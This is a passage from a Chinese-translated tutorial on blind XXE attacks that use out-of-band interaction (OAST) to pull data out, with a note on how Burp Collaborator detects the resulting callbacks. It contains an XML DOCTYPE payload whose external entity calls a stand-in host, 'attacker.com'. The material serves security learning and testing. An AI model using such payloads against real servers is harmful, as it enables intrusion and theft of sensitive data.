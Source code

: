 
盲 XXE 攻击 -带外交互技术 (OAST) 泄露数据

- - -

# 盲 XXE 攻击 -带外交互技术 (OAST) 泄露数据

> 译者注：本文为翻译文章，这篇文章基本涵盖了盲 XXE 比较少见的问题的解决方案，值得细看。

hi，大家好！本篇文章将介绍高级 XXE 攻击，需要使用带外交互技术来带出敏感数据。如果你想要学习更多关于基础 XXE 攻击向量，请继续阅读[本文](https://shreyapohekar.com/blogs/xxe-simplified-the-concept-attacks-and-mitigations/)。

## 盲 XXE 的基础知识

服务器可能接受 Body 中的 XML 数据，但是它不一定总是会在响应中返回值。但是，如果您仍然认为应用可能容易受到 XXE 攻击，OAST 则可以作为验证的选择。

## 步骤

要触发带外交互，你必须定义一个外部实体，如下所示

```plain
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com">] >
```

然后，您将在 XML 文档的数据值部分使用已经定义的实体。如果这个应用程序容易受到攻击，服务器则要发送一个 http 请求到您的 URL。攻击可以监视 DNS 查找和 http 请求来说明攻击成功了。

您可以使用 burp-collaborator 来生成您的 URL。

-   它使用自己专有的域名，并且该服务器已经注册为该域的权威 DNS 服务器
-   它提供 DNS 服务，使用自己自身的 IP 地址回答在其注册域 (子域) 的任何 DNS 查询
-   他提供 HTTP/HTTPS 服务，并使用有效的，CA 签名的通配符 TLS 证书作为其域名。
-   提供 SMTP/SMTPS 服务

当收到来自易受攻击的服务器的交互时，burp 协作者的屏幕如下所示：

[![](assets/1698897039-733fabf0d62315aa254adf73923199ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210501135009-16f36936-aa41-1.png)
